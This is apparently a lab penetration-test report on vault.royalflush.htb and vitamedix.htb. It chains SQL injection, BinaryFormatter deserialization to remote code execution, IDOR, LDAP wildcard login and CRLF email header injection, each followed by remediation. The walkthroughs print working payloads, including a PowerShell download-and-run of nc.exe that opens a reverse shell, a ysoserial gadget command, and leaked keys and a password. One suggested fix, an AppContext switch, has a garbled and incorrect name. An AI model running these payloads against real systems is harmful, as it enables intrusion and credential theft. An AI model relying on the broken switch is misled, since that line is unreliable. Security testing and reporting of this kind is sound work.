CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H (9.4 - Critical)

#### Affected Component(s)

* MyController.SecondaryEmail() in Controllers/MyController.cs

#### External References

* https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

#### Description & Cause

The Vault application's backup-email update feature is vulnerable to SQL injection. When a logged-in user submits a new secondary email address, the application checks whether the email is already in use by running a `SELECT` query. The user-supplied value is inserted directly into the SQL command string using `string.Format()`, and the preceding regex validation is weak enough to be bypassed. As a result, an attacker can inject arbitrary SQL into the query.

Because the backend uses Microsoft SQL Server and the connection is configured with database credentials, a successful injection can be escalated to dump arbitrary tables, extract sensitive records (such as stored passwords and user data), and read files from the underlying server using SQL Server primitives such as `OPENROWSET(BULK...)`, `xp_dirtree`, or error-based file reads.

## Root Cause

The root cause is unsafe dynamic SQL construction combined with ineffective input validation:

1. **User input concatenated into SQL**

   In `MyController.SecondaryEmail()`, the secondary email value is embedded directly into the query string:

   C#

   ```
   cmd.CommandText = string.Format("SELECT * FROM Users WHERE Email = '{0}' OR SecondaryEmail = '{0}'", secondaryEmail);
   ```

   Because there are no query parameters, any single quote (`'`) in the input terminates the string literal and alters the query's syntax and semantics.

2. **Bypassable regex validation**

   The validation pattern is configured as:

   C#

   ```
   string emailPattern = @"\S+@[a-z\.]+";
   ```

   Because it is not anchored with `^` and `$`, the `\S+` pattern permits quotes, comment markers, and SQL keywords as long as the payload ends with an `@domain.tld`-style substring. For example, `' OR 1=1--@x.com` successfully passes validation while executing injected SQL.

3. **Inconsistent parameterization**

   Although other methods within the same controller correctly utilize `SqlParameter`, this specific lookup relies on `string.Format()`, completely bypassing SQL Server's parameterization and escaping defenses.

4. **High-privilege database context**

   The connection string initialized in `DbService.GetConnectionString()` uses a dedicated SQL account with privileges sufficient to read database contents and access server files. This context elevates the impact from simple data disclosure to file-system traversal.


#### Security Impact

The SQL injection in `/My/SecondaryEmail` runs in the context of Microsoft SQL Server and exposes file-system error messages, the impact escalates to full application compromise:

* **Database extraction** The attacker can dump the entire Vault database, including all user records, password hashes, and the contents of the Passwords table. This exposes every secret the application is meant to protect.
* **System file read** Through `OPENROWSET(BULK...)` and error-based file probing, the attacker can read arbitrary files from the web server. In this case, the `Web.config` file was successfully extracted.
* **Authentication bypass via forged JWT cookies** The dumped `Web.config` contains the `AuthKey` value `874c2f91-7346-4005-b55d-5077a54a5201`, which is used by `AuthService` as the symmetric signing key for JWT authentication cookies. With this key, an attacker can forge valid user cookies for any account, including administrators, without needing a password.
* **Decryption of stored passwords** The same `Web.config` exposes `PasswordKey` (`f3d9aa53-c08d-43`) and `PasswordIV` (`5ac8083e-8ff6-43`), which are used by `PasswordService` to encrypt and decrypt password entries. An attacker with these values can decrypt every stored password in the Passwords table, exposing all user-managed secrets in plaintext.
* **Lateral movement** Credentials and configuration details extracted from the vault can be reused against other internal services, such as the forum, database server, or any other application sharing the same identity or infrastructure.


#### Detailed Walkthrough

1. **Source-code review**

   While reviewing `Controllers/MyController.cs`, the pentester identified the vulnerable query in the `SecondaryEmail()` action:

   C#

   ```
   cmd.CommandText = string.Format("SELECT * FROM Users WHERE Email = '{0}' OR SecondaryEmail = '{0}'", secondaryEmail);
   ```

   Because the value is concatenated directly into the SQL string and the regex check is bypassable, the endpoint is clearly injectable.

2. **Confirming error-based boolean injection**

   The pentester submitted a payload designed to trigger a divide-by-zero error when the injected condition is true:

   HTTP

   ```
   secondaryEmail=asd@me.com'UNION+SELECT+NULL,NULL,NULL,+CASE+WHEN+(1=1)+THEN+1/0+ELSE+NULL+END;--+-
   ```

   The server responded with a `Divide by zero error encountered` message, proving the injected SQL was executed and the fourth column was processed.

{width="auto"}

   To confirm the injection was conditional, the pentester changed the condition to `1=2`:

   HTTP

   ```
   secondaryEmail=asd@me.com'UNION+SELECT+NULL,NULL,NULL,+CASE+WHEN+(1=2)+THEN+1/0+ELSE+NULL+END;--+-
   ```

   This time the server returned a normal `302 redirect` with no error, showing the condition controlled query behavior.

   {width="auto"}

4. **Extracting internal paths from error messages**

   The error responses revealed the physical path of the application source file:

   Plaintext

   ```
   C:\inetpub\wwwroot\vault.royalflush.htb\Controllers\MyController.cs:192
   ```

{width="auto"}


   This confirmed the application was running under IIS in `C:\inetpub\wwwroot\vault.royalflush.htb\`.

4. **Mapping file existence through SQL Server bulk-load errors**

   The pentester used SQL Server's `OPENROWSET(BULK...)` primitive to probe files on disk. Different operating-system error codes in the response distinguished between non-existent paths, existing-but-inaccessible paths, and existing readable files:

   * **Path does not exist returned:** Plaintext
     ```
     Cannot bulk load because the file "C:\inetpub\wwwroot\webapp\vault" could not be opened. Operating system error code 3(The system cannot find the path specified.).
     ```
   * **Path exists but access denied returned:** Plaintext
     ```
     Cannot bulk load because the file "C:\inetpub\wwwroot" could not be opened. Operating system error code 5(Access is denied.).
     ```
   * **File does not exist returned:** Plaintext
     ```
     Cannot bulk load. The file "C:\inetpub\wwwroot\vault.royalflush.htb\Web.configs" does not exist or you don't have file access rights.
     ```

5. **Locating and dumping Web.config**

   After testing several paths, the pentester confirmed that `C:\inetpub\wwwroot\vault.royalflush.htb\Web.config` existed because the request returned `302 Found` instead of a file-not-found error. Supplying a deliberately wrong filename such as `Web.configs` returned `500` with a clear "does not exist" message, confirming the base file was real.

   The pentester then wrote a script to read the file in chunks through the SQL injection and reassemble its contents.
   
[vault.royalflush.htb-SecondaryEmail-SQLI-Web-Config-dump.py](exploits/vault.royalflush.htb-SecondaryEmail-SQLI-Web-Config-dump.py)

   The dumped `Web.config` contained the application's sensitive cryptographic keys:

   XML

   ```
   <add key="webpages:Version" value="3.0.0.0" />
   <add key="webpages:Enabled" value="false" />
   <add key="ClientValidationEnabled" value="true" />
   <add key="UnobtrusiveJavaScriptEnabled" value="true" />
   <add key="AuthKey" value="874c2f91-7346-4005-b55d-5077a54a5201" />
   <add key="AuthCookieName" value="user" />
   <add key="PasswordKey" value="f3d9aa53-c08d-43" />
   <add key="PasswordIV" value="5ac8083e-8ff6-43" />
   </appSettings>
   ```

 {width="auto"}
   
   
   With these keys, an attacker can forge authentication cookies and decrypt stored password values, completing the compromise of the vault application.


#### Patching and Remediation

1. Use parameterized queries                                                                                                                                                              
      Replace the dynamic SQL in MyController.SecondaryEmail() with a parameterized query. Never concatenate user input into CommandText:                                                    
                                                                                                                                                                                             
      ```csharp                                                                                                                                                                              
        [HttpPost]                                                                                                                                                                           
        public ActionResult SecondaryEmail()                                                                                                                                                 
        {                                                                                                                                                                                    
            User user = AuthService.LoggedInUser(Request);                                                                                                                                   
            if (user == null) return Redirect("/Auth/Login");                                                                                                                                
                                                                                                                                                                                             
            string secondaryEmail = Request["secondaryEmail"];                                                                                                                               
                                                                                                                                                                                             
            if (!secondaryEmail.IsEmpty())                                                                                                                                                   
            {                                                                                                                                                                                
                // Use System.Net.Mail.MailAddress for proper email validation                                                                                                               
                try                                                                                                                                                                          
                {                                                                                                                                                                            
                    var addr = new System.Net.Mail.MailAddress(secondaryEmail);                                                                                                              
                }                                                                                                                                                                            
                catch                                                                                                                                                                        
                {                                                                                                                                                                            
                    return Redirect("/My/Settings");                                                                                                                                         
                }                                                                                                                                                                            
                                                                                                                                                                                             
                using (SqlConnection conn = DbService.GetSqlConnection())                                                                                                                    
                using (SqlCommand cmd = new SqlCommand())                                                                                                                                    
                {                                                                                                                                                                            
                    cmd.Connection = conn;                                                                                                                                                   
                    cmd.CommandType = CommandType.Text;                                                                                                                                      
                    cmd.CommandText = "SELECT 1 FROM Users WHERE Email = @Email OR SecondaryEmail = @SecondaryEmail";                                                                        
                    cmd.Parameters.AddWithValue("@Email", secondaryEmail);                                                                                                                   
                    cmd.Parameters.AddWithValue("@SecondaryEmail", secondaryEmail);                                                                                                          
                                                                                                                                                                                             
                    conn.Open();                                                                                                                                                             
                    using (SqlDataReader rdr = cmd.ExecuteReader())                                                                                                                          
                    {                                                                                                                                                                        
                        if (!rdr.Read())                                                                                                                                                     
                        {                                                                                                                                                                    
                            rdr.Close();                                                                                                                                                     
                            cmd.CommandText = "UPDATE Users SET SecondaryEmail = @SecondaryEmail WHERE UserID = @UserID";                                                                    
                            cmd.Parameters.Clear();                                                                                                                                          
                            cmd.Parameters.AddWithValue("@SecondaryEmail", secondaryEmail);                                                                                                  
                            cmd.Parameters.AddWithValue("@UserID", user.UserID);                                                                                                             
                            cmd.ExecuteNonQuery();                                                                                                                                           
                        }                                                                                                                                                                    
                    }                                                                                                                                                                        
                }                                                                                                                                                                            
            }                                                                                                                                                                                
            return Redirect("/My/Settings");                                                                                                                                                 
        }                                                                                                                                                                                    
      ```                                                                                                                                                                                    
                                                                                                                                                                                             
   2. Validate email format correctly                                                                                                                                                        
      Replace the bypassable regex with System.Net.Mail.MailAddress or a strictly anchored RFC-compliant regex. Also normalize and trim the input before validation and storage.             
                                                                                                                                                                                             
   3. Apply least privilege to the database account                                                                                                                                          
      The vault_user account should only have the minimum permissions required: SELECT, INSERT, UPDATE, and DELETE on the specific tables it needs. It should not have permissions to run    
      OPENROWSET(BULK...), xp_cmdshell, xp_dirtree, or other server-level features that enable file-system access.                                                                           
                                                                                                                                                                                             
   4. Disable dangerous SQL Server features if not needed                                                                                                                                    
      Turn off xp_cmdshell and Ole Automation Procedures, and restrict OPENROWSET/BULK INSERT to accounts that genuinely require them. Enable TRUSTWORTHY and IMPERSONATE only where strictly
      necessary.                                                                                                                                                                             
                                                                                                                                                                                             
   5. Do not expose detailed error messages                                                                                                                                                  
      Configure ASP.NET custom errors in Web.config so that stack traces, file paths, and database error details are never returned to the browser in production:                            
                                                                                                                                                                                             
      ```xml                                                                                                                                                                                 
        <system.web>                                                                                                                                                                         
            <customErrors mode="On" defaultRedirect="~/Error/Generic">                                                                                                                       
                <error statusCode="500" redirect="~/Error/ServerError"/>                                                                                                                     
            </customErrors>                                                                                                                                                                  
        </system.web>                                                                                                                                                                        
      ```                                                                                                                                                                                    
                                                                                                                                                                                             
   6. Rotate all exposed secrets immediately                                                                                                                                                 
      Because the attacker extracted AuthKey, PasswordKey, and PasswordIV from Web.config, these must be regenerated and replaced. All existing sessions should be invalidated, and all      
      stored encrypted passwords should be re-encrypted with the new keys or reset.                                                                                                          
                                                                                                                                                                                             
   7. Move secrets out of source-controlled configuration                                                                                                                                    
      Store cryptographic keys in environment variables, Azure Key Vault, AWS Secrets Manager, or another secrets manager rather than in Web.config. Ensure the application process identity 
      is the only account that can read them.                                                                                                                                                
                                                                                                                                                                                             
   8. Audit all SQL queries                                                                                                                                                                  
      Search the entire codebase for string.Format, + concatenation, or inline string interpolation inside CommandText. Every query must use SqlParameter. Pay special attention to          
      MyController, AuthService, and any other controllers.                                                                                                                                  
                                                                                                                                                                                             
   9. Implement Web Application Firewall (WAF) rules                                                                                                                                         
      As a defense-in-depth measure, add WAF rules to detect SQL keywords, UNION SELECT, and bulk-load primitives in input fields. This should not replace parameterized queries but can block automated scanners and obvious injection attempts. 


### .NET BinaryFormatter deserialization {#0038712a-c54f-41b6-bad2-da0c98d68114}

#### CWE

CWE-502

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H (9.4 - Critical)

#### Affected Component(s)

*  PasswordService.DecryptPassword() in Services/PasswordService.cs =>  BinaryFormatter.Deserialize()

#### External References


#### Description & Cause

The vault application uses the .NET BinaryFormatter to deserialize password values before returning them to the user. BinaryFormatter is a dangerous deserializer that performs full object deserialization and is known to be vulnerable to remote code execution when it processes attacker-controlled data. Because the application decrypts stored password entries with `BinaryFormatter.Deserialize()`, an attacker who can control the encrypted ciphertext can embed a malicious serialized .NET object. When the application decrypts and deserializes that payload—such as when the user visits `/My/Passwords`—the object instantiation chain executes arbitrary code on the server.

In practice, the attacker can chain this with the SQL injection/file-read vulnerability to obtain the AES `PasswordKey` and `PasswordIV` from `Web.config`, encrypt a custom BinaryFormatter gadget payload, and import it through `/My/ImportPassword`. Viewing the password list then triggers the payload and yields code execution under the IIS application pool identity.

## Cause

The root cause is the use of an insecure deserializer on untrusted input:

1. **Insecure use of BinaryFormatter**

   `PasswordService.DecryptPassword()` creates a BinaryFormatter and calls `Deserialize()` on decrypted bytes:

   C#

   ```
   BinaryFormatter bf = new BinaryFormatter();
   return Encoding.UTF8.GetString((byte[])bf.Deserialize(new MemoryStream(plaintext)));
   ```

   BinaryFormatter is obsolete and explicitly documented by Microsoft as unsafe for deserializing untrusted input because it can instantiate arbitrary types and run their constructors, property setters, and `OnDeserialized` methods.

2. **Attacker-controlled encrypted payload**

   The `ImportPassword` action in `MyController` accepts a base64 `encryptedPassword` value from the request and stores it in the database without validation:

   C#

   ```
   string encryptedPassword = Request["encryptedPassword"];
   ...
   cmd.CommandText = "INSERT INTO Passwords (UserID, Name, EncryptedValue) VALUES (@UserId, @Name, @EncryptedValue)";
   cmd.Parameters.AddWithValue("@EncryptedValue", encryptedPassword);
   ```

3. **AES keys exposed through configuration**

   The `PasswordKey` and `PasswordIV` are stored in plaintext in `Web.config`. Once obtained through the SQL injection/file-read vulnerability, the attacker can encrypt any byte array with the same AES parameters and produce ciphertext that the application will successfully decrypt.

4. **No type restrictions or deserialization binder**

   The BinaryFormatter instance does not set a `SerializationBinder` to whitelist allowed types, so any serializable .NET type present in the application domain or its dependencies can be instantiated.

5. **Decryption is treated as a trust boundary**

   The application assumes that because data is encrypted, it is safe to deserialize. Encryption only provides confidentiality, not integrity or trust; an attacker with the key can forge ciphertext, so the decrypted bytes must still be treated as untrusted input.


#### Security Impact

* **Complete host takeover** The attacker can run arbitrary commands, install persistence mechanisms, create new accounts, and take full control of the underlying Windows server.


#### Detailed Walkthrough

1. **Prepare the PowerShell download and shell payload**

   The pentester created a base64-encoded PowerShell command that downloads `nc.exe` from the attacker's server and executes a reverse shell:

   

   ```bash
   echo -n '(new-object net.webclient).downloadfile("http://<ip>:<port>/nc.exe", "c:\windows\tasks\nc.exe");c:\windows\tasks\nc.exe -nv <ip> <shell-port> -e c:\windows\system32\cmd.exe;' | iconv -t UTF-16LE | base64 -w0
   ```

   This produces a UTF-16LE base64-encoded PowerShell payload.

2. **Generate the .NET deserialization gadget**

   Using `ysoserial.net`, the pentester generated a malicious `BinaryFormatter` payload with the `TypeConfuseDelegate` gadget chain, passing the encoded PowerShell command as the execution argument:

   

   ```powershell
   .\ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c "powershell -nop -enc <payload_b64>"
   ```

   The output is a base64 binary serialized object that, when deserialized by `BinaryFormatter`, will execute the supplied PowerShell command.

3. **Encrypt the payload with the leaked AES key**

   Because the application decrypts the stored value with AES before passing it to `BinaryFormatter.Deserialize`, the raw binary payload must be encrypted using the same key and IV exposed in `Web.config`:


   ```xml
   <add key="PasswordKey" value="f3d9aa53-c08d-43" />
   <add key="PasswordIV" value="5ac8083e-8ff6-43" />
   ```

   The pentester used the helper script `vault.royalflush.htb-Deserialization-Payload.py` to perform this encryption. First, the base64-encoded gadget payload was saved to `payload.b64`, then:

   

   ```bash
   python vault.royalflush.htb-Deserialization-Payload.py payload.b64
   ```

   The script produced the final base64 ciphertext that the vault application could decrypt successfully.

4. **Start the listener**

   On the attacker machine, the pentester started a netcat listener to catch the reverse shell:

   

   ```bash
   nc -lvnp <shell-port>
   ```

   A simple HTTP server was also started to serve `nc.exe`:

   Bash

   ```
   python3 -m http.server <port>
   ```

5. **Submit the encrypted payload**

   The pentester logged in to the vault application and submitted the encrypted payload through the Import Password feature at `POST /My/ImportPassword`, supplying a name and the generated ciphertext as the `encryptedPassword` value.

6. **Trigger deserialization and gain RCE**

   The pentester navigated to `/My/Passwords`. The application retrieved the newly imported entry, decrypted the ciphertext with AES, and passed the resulting bytes to `BinaryFormatter.Deserialize()`. The gadget chain executed, launching PowerShell, downloading `nc.exe`, and connecting back to the attacker listener.

7. **Shell access and flag retrieval**

   The reverse shell connected, giving the pentester command execution as the IIS application pool identity on the target server. The flag was found in the root of `C:\`:

   

   ```dos
   C:\> dir C:\
   ...
   ddf1df82dea9ce0d6ab3a03aa80cbdac
   ```


{width="auto"}


   The pentester had successfully achieved remote code execution by chaining the SQL injection/file-read vulnerability with the insecure `BinaryFormatter` deserialization.


#### Patching and Remediation

## Patching and Remediation

1. **Remove BinaryFormatter entirely**

   BinaryFormatter is obsolete and unsafe. The simplest fix is to stop serializing the password at all. Passwords should be stored as plain UTF-8 strings and encrypted directly:


   ```c#
   public static string EncryptPassword(string password)
   {
       byte[] plaintext = Encoding.UTF8.GetBytes(password);
       byte[] ciphertext;

       using (ICryptoTransform encryptor = GetAES().CreateEncryptor())
           ciphertext = encryptor.TransformFinalBlock(plaintext, 0, plaintext.Length);

       return Convert.ToBase64String(ciphertext);
   }

   public static string DecryptPassword(string b64)
   {
       try
       {
           byte[] ciphertext = Convert.FromBase64String(b64);
           byte[] plaintext;

           using (ICryptoTransform decryptor = GetAES().CreateDecryptor())
               plaintext = decryptor.TransformFinalBlock(ciphertext, 0, ciphertext.Length);

           return Encoding.UTF8.GetString(plaintext);
       }
       catch (Exception)
       {
           return "[!] ERROR: Corrupted Password";
       }
   }
   ```

   If the current database already contains BinaryFormatter-serialized entries, write a one-time migration that decrypts, deserializes in a fully trusted offline process, re-encrypts as plain strings, and updates the records.

2. **If serialization is truly required, use a safe serializer**

   Replace BinaryFormatter with `System.Text.Json` or `Newtonsoft.Json` with `TypeNameHandling.None`. Never enable type-name handling unless a strict `SerializationBinder` whitelist is in place.

3. **Authenticate encrypted values (Encrypt-then-MAC)**

   Encryption alone does not protect integrity. Use an HMAC (e.g., `HMACSHA256` with a separate key) over the ciphertext and verify it before decryption. This prevents an attacker from forging ciphertext even if the encryption key is compromised.

   

   ```c#
   byte[] ComputeHmac(byte[] data)
   {
       using (var hmac = new HMACSHA256(hmacKey))
           return hmac.ComputeHash(data);
   }
   ```

4. **Validate imported encrypted passwords**

   Do not allow the `ImportPassword` endpoint to accept arbitrary encrypted blobs without verification. After decrypting, validate that the result is a legitimate password string (length, character set) before storing it.

5. **Remove or restrict the ImportPassword feature**

   If the feature is not required, delete the `ImportPassword` action entirely. If it is required, require re-authentication, log every import, and restrict it to administrators.

6. **Rotate cryptographic keys**

   Because the `PasswordKey`, `PasswordIV`, and `AuthKey` were exposed, generate new keys immediately. Re-encrypt all stored passwords with the new keys and invalidate all existing sessions/cookies.

7. **Run the application pool under a low-privilege account**

   Configure IIS to run the application pool as a dedicated, low-privilege service account with no administrative rights. This limits the damage if RCE is achieved.

8. **Enable deserialization mitigations**

   If migration away from BinaryFormatter is not immediately possible, set an AppContext switch to block dangerous types and configure a strict `SerializationBinder` that whitelists only `byte[]`:

   

   ```c#
   AppContext.SetSwitch("Switch.System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.A deserialization vulnerability", true);
   ```

   However, this is only a temporary defense; complete removal is strongly recommended.

9. **Patch and update dependencies**

   Ensure all .NET libraries and NuGet packages are up to date so that known gadget chains in common libraries are eliminated.

10. **Monitor for exploitation**

    Log and alert on unusual process creation from the IIS worker process, such as `powershell.exe`, `cmd.exe`, or network connections to unexpected external addresses.


### Logic Flaw on Storage.vitamedix.htb → SMTP credentials leak {#a5772f07-ca79-4f30-9424-51762dbe1fc8}

#### CWE

CWE-639

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N (7.1 - High)

#### Affected Component(s)

* Storage-master/storage/storage.vitamedix.htb/src/render.php
* Storage-master/storage/storage.vitamedix.htb/src/reports.php 
* Storage-master/storage/storage.vitamedix.htb/src/db.php (fetch_data())   

#### External References


#### Description & Cause

Description                                                                                                                                                                               
                                                                                                                                                                                             
   An authenticated user can read files belonging to other accounts by manipulating the file ID flow between reports.php and render.php. Although reports.php rejects unauthorized IDs, it   
   stores the requested ID in the session before the access check. Visiting render.php afterwards serves the file because render.php never validates ownership.                              
                                                                                                                                                                                             
   Causes                                                                                                                                                                                    
                                                                                                                                                                                             
   1. Authorization only in one location — render.php has no ownership check.                                                                                                                
   2. Session write before validation — reports.php saves the user-supplied ID into $_SESSION before confirming access.                                                                      
   3. Trusting session state — render.php assumes the session ID was pre-authorized.                                                                                                         
   4. Missing defense-in-depth — no second authorization check on the actual data-fetch operation.

#### Security Impact

* **Broken access control:** Any authenticated user can read files owned by other users or admins by swapping error.php for render.php after a failed `/reports.php?id=<id>` request.
* **Credential leak:** Sensitive files stored in the system — such as documents containing SMTP credentials — can be accessed without authorization, enabling further compromise of email/SMTP infrastructure.


#### Detailed Walkthrough

1. Source code review of `Storage-master/storage/storage.vitamedix.htb/src/config.php` reveals hardcoded database credentials: `henry:H3nry_V@u*******`.
2. Log in to `storage.vitamedix.htb` and request a file you own: `GET /reports.php?id=1`.
3. Intercept the response — server sets `$_SESSION['id'] = 1`, passes the access check, and redirects to `render.php`.
4. Request a file you do not own: `GET /reports.php?id=133`.
5. Server sets `$_SESSION['id'] = 133`, fails `check_access()`, and redirects to `error.php`.
6. Intercept the `error.php` redirect and change the location to `render.php`.
7. Browser follows `GET /render.php`; it reads `$_SESSION['id']` (still 133) and returns the file contents.
8. The response now leaks the unauthorized file, e.g., SMTP credentials.


script to automate it 

[storage.vitamedix.htb-SMTP-Creds-LEAK.py](exploits/storage.vitamedix.htb-SMTP-Creds-LEAK.py)

{width="auto"}


#### Patching and Remediation

  1. Re-authorize in render.php — call check_access($_SESSION['id'], $_SESSION['user']) before fetching the file.                                                                           
   2. Set session ID only after authorization — in reports.php, validate ownership before storing the ID in $_SESSION.                                                                       
   3. Pass ID via signed/encrypted parameter — use a token instead of a raw integer in the URL/session.                                                                                      
   4. Remove hardcoded credentials — move henry:H3nry_V@ulT_d3v! from config.php to environment variables or a secrets manager and rotate it.                                                
   5. Log access attempts — alert on unauthorized file access attempts.

  **Fixed Code**
  Here is the cleaned-up Markdown formatting for the provided source code snippets:

## Source Code Overview

### `reports.php`


```php
<?php
session_start();
require_once ('db.php');

if(!$_SESSION['user']){
  header("Location: index.php");
  exit;
}

$id = isset($_GET['id']) ? intval($_GET['id']) : 0;

if($id > 0 && check_access($id, $_SESSION['user'])){
  $_SESSION['id'] = $id;
  header("Location: render.php");
  exit;
}

header("Location: error.php");
exit;
?>
```

### `render.php`


```php
<?php
session_start();
require_once ('db.php');

if(!$_SESSION['user']){
  header("Location: index.php");
  exit;
}

$id = isset($_SESSION['id']) ? intval($_SESSION['id']) : 0;

if($id <= 0 || !check_access($id, $_SESSION['user'])){
  header("Location: error.php");
  exit;
}

$user_data = fetch_user_data($_SESSION['user']);
$data = fetch_data($id);
?>
```

### `config.php`


```php
<?php
$servername = getenv('DB_HOST') ?: '127.0.0.1';
$dbusername = getenv('DB_USER') ?: '';
$password   = getenv('DB_PASS') ?: '';
$dBName     = getenv('DB_NAME') ?: 'db';

$conn = mysqli_connect($servername, $dbusername, $password, $dBName);

if(!$conn){
  die("Connection failed: " . mysqli_connect_error());
}
?>
```


### LDAP injection at ldap.vitamedix.htb {#6bfa3977-88f0-4c2c-91d3-978ce8913206}

#### CWE

CWE-287

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N (8.8 - High)

#### Affected Component(s)


#### External References


#### Description & Cause

The LDAP authentication endpoint at ldap.vitamedix.htb fails to validate or escape user-supplied credentials before using them in an LDAP search or bind operation. Submitting the wildcard string `*` (or similar wildcard patterns) causes the LDAP query to match any user record instead of verifying a specific username/password pair. The application then treats the first matched entry — in this case an administrative account — as a successful login, disclosing the user list and emails such as <mic****@vitamedix.htb>.

## How it works (typical vulnerable filter)

A common vulnerable login query looks like:

Code snippet

```
(&(uid=USERNAME)(userPassword=PASSWORD))
```

When the attacker sends:

Plaintext

```
USERNAME = *:*
PASSWORD = *:*
```

the filter becomes:

Code snippet

```
(&(uid=*:*)(userPassword=*:*))
```

The \* character is the LDAP wildcard, so the filter evaluates to true for any entry with a uid and any entry with a userPassword, effectively returning the first directory object (often the admin account). The server-side code then assumes authentication succeeded because a result was returned.

## Causes

1. Unsanitized input in LDAP filters — the username and password are concatenated directly into the LDAP query without escaping special characters (\*, (, ), , NUL).
2. Missing input validation — no allowlist, length limit, or character-set check is applied to the credentials before they reach the LDAP layer.
3. Incorrect authentication logic — the application treats "LDAP query returned a record" as equivalent to "credentials verified," rather than performing a proper bind with the supplied password.


#### Security Impact

* **Confidentiality:** All user email addresses stored in the directory are exposed, including mic****@vitamedix.htb and any other accounts. This is PII that can be used for phishing, targeted attacks, or correlation with other breaches.
no 

#### Detailed Walkthrough

1. Visited ldap.vitamedix.htb/login.
2. Entered *:* in both username and password fields.
3. Server built an LDAP filter like (&(uid=*:*)(userPassword=*:*)), which matched any directory entry.
{width="auto"}
4. Logged in as the first returned account — admin.
5. Enumerated users and found <mic****@vitamedix.htb>.


#### Patching and Remediation


1. **Use LDAP bind, not search filters, for authentication**

   Authenticate by binding with the user-supplied credentials directly. A failed bind means invalid credentials.

2. **Escape LDAP metacharacters**

   If you must build filters, escape \*, (, ), , and NUL before inserting user input.

3. **Validate input**

   Enforce allowlists for usernames (e.g., alphanumeric/email format) and reject wildcard characters.

4. **Least-privilege service account**

   The application should bind with an account that can only read the minimum attributes required.

5. **Return only needed attributes**

   Restrict the LDAP query to return only the fields necessary for login.

6. **Monitor and alert**

   Log failed and unusual login patterns, especially wildcard submissions.


### Valid email enumeration via forgot-password self-service (michael@vitamedix.htb) {#5296e7d1-3552-4af2-8303-4f39f503ee54}

#### CWE

CWE-204

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:N/VA:N/SC:N/SI:N/SA:N (6.9 - Medium)

#### Affected Component(s)


#### External References


#### Description & Cause

The forgot-password endpoint on self-service.vitamedix.htb returns a different message depending on whether the submitted email exists in the database:

• Existing email → Email sent

• Non-existing email → Not found

This allows an attacker to determine which email addresses are registered by brute-forcing the form.

### Cause

1. Verbose error responses — the server reveals account existence through the response text.
2. No rate limiting — the endpoint accepts unlimited requests, enabling automated wordlist attacks.
3. Missing account-existence abstraction — the application should return the same generic message (e.g., "If the email exists, a reset link was sent") regardless of whether the email is registered.
i

#### Security Impact

  • Enumerates valid user accounts for targeted phishing or credential-stuffing attacks.                                                                                                    
  

#### Detailed Walkthrough

1. Go to self-service.vitamedix.htb/forgot-password.
2. Submit an invalid email, e.g. <notauser@vitamedix.htb>.
3. Server responds: Not found.
4. Submit a valid email, e.g. <mic****@vitamedix.htb>.
5. Server responds: Email sent.
6. The response difference confirms <mic****@vitamedix.htb> is a registered account.
7. 
{width="auto"} 

8. Repeat with a wordlist to enumerate all validusers.

#### Patching and Remediation

1. Return the same message for every email — e.g., "If the email exists, a reset link was sent."
2. Rate-limit the endpoint — cap requests per IP and per email address.
3. Add CAPTCHA — slows automated enumeration.
4. Log and monitor — alert on high-volume forgot-password requests.


### Email header injection (CRLF) in password reset {#d344076c-001e-4d19-acab-ec9e495fab71}

#### CWE

CWE-93

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N (8.6 - High)

#### Affected Component(s)

* POST /reset.php

#### External References


#### Description & Cause

The password-reset endpoint at `selfservice.vitamedix.htb/reset.php` is vulnerable to **CRLF injection** (Email Header Injection).

An attacker submits a victim email followed by encoded carriage-return/line-feed characters (`%0d%0a`) and additional SMTP headers. The server includes those headers in the outgoing password-reset email, CC'ing/BCC'ing the specified address. The attacker then receives the reset email containing the victim's newly generated password.

### Example Payload


```http
email=michael%40vitamedix.htb%0d%0aCc:+smtp-dev@vitamedix.htb%0d%0aDAM:+
```

* **Result:** The reset email for `michael@vitamedix.htb` is also delivered to `smtp-dev@vitamedix.htb`, exposing the new password.

### Root Causes

1. **Unsanitized Email Input:** The `email` parameter is injected directly into mail headers without stripping `\r`, `\n`, or header injection sequences.
2. **Header Concatenation:** The application manually constructs raw SMTP headers using unsanitized user input.
3. **Weak Password Reset Flow:** The reset password or token is transmitted in plaintext via email without secondary verification.
4. **Missing Input/Output Validation:** The application fails to validate that the `email` parameter is a single, strictly formatted email address prior to calling the mail function.


#### Security Impact

• Account takeover: The attacker receives the victim's newly generated password and can log in as the victim.\
• Confidentiality breach: Access to all data and functions available to the compromised account.\
• Email header injection: Beyond credential theft, the attacker can inject arbitrary SMTP headers (Cc, Bcc, Subject, etc.) for spam/phishing pivoting.


#### Detailed Walkthrough


1. Navigate to `selfservice.vitamedix.htb/reset.php`.

2. Submit the payload in the `email` field:

   

   ```http
   michael%40vitamedix.htb%0d%0aCc:+smtp-dev@vitamedix.htb%0d%0aDAM:+
   ```

3. The server constructs the reset email and injects the attacker-controlled headers, adding `smtp-dev@vitamedix.htb` to the `Cc` field.

4. The email is generated and sent to `michael@vitamedix.htb`, with a copy delivered to the attacker's address.

{width="auto"}
5. In the attacker's inbox (`smtp-dev@vitamedix.htb`), the email is received containing the newly generated credentials:

   

   ```Plaintext
   Subject: Password reset for mic****
   Your new password is 9ecf1ffe7c795099b8ad40**********
   ```

6. Log in to the `newsletter.vitamedix.htb` as `mic****@vitamedix.htb` using the intercepted password.
7. Notice the flag at the `http://newsletter.vitamedix.htb/home`

{width="auto"}


#### Patching and Remediation

1. **Sanitize Email Input:** Strip `\r`, `\n`, and header injection characters (or strictly validate using `FILTER_VALIDATE_EMAIL`) before using the address in SMTP headers.
2. **Use a Hardened Mail Library:** Utilize robust libraries (such as PHPMailer or Symfony Mailer) that automatically sanitize header fields and handle encoding securely rather than concatenating raw strings.
